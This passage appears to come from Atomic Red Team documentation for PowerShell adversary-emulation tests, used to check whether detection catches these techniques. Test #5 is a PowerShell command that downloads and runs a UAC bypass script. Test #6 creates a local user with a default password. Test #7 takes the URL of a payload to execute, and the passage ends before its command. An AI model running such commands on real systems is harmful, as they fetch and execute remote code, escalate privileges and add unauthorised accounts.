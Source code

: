 ## Atomic Test #5 - Invoke-AppPathBypass
Note: Windows 10 only

Bypass is based on: https://enigma0x3.net/2017/03/14/bypassing-uac-using-app-paths/

**Supported Platforms:** Windows


#### Run it with `command_prompt`!
```
Powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/enigma0x3/Misc-PowerShell-Stuff/master/Invoke-AppPathBypass.ps1'); Invoke-AppPathBypass"
C:\Windows\System32\cmd.exe
```
<br/>
<br/>

## Atomic Test #6 - PowerShell Add User
Using PS 5.1, add a user via CLI

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | username to add | string | atomic_user|
| full_name | Full name of user | string | Atomic Red Team|
| password | password to use | string | ATOM1CR3DT3@M|
| description | Brief description of account | string | Atomic Things|

#### Run it with `command_prompt`!
```
New-LocalUser -FullName '#{full_name}' -Name '#{user_name}' -Password #{password} -Description '#{description}'
```
<br/>
<br/>

## Atomic Test #7 - Powershell MsXml COM object
Provided by https://github.com/mgreen27/mgreen27.github.io
Powershell MsXml COM object.
Not proxy aware removing cache although does not appear to write to those locations

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| url | url of payload to execute | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1086/payloads/test.ps1|
